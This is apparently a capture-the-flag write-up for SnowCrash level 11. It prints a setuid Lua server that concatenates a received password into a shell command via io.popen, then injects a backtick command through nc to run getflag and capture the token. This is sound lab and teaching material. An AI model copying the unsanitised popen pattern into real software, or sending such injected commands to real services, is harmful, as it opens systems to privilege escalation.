 # Level 11

## Vulnerability

Privilege escalation - code injection

## Context

```
level11@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

## Solution

Let's ```cat``` the file and see what we find. 
```
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
We can see this program waits for a connection with the server running on 127.0.0.1 (hostname) 5151 (port).<br/>
It will prompt for a password and pass anything we write to a hashing function.<br/>
Let's see if we can exploit that, by tricking it to run ```getflag``` in the place of the password. <br/>

We'll use ```nc``` to establish a TCP connection with remote server. 
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /dev/shm/token
Erf nope..
level11@SnowCrash:~$ cat /dev/shm/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
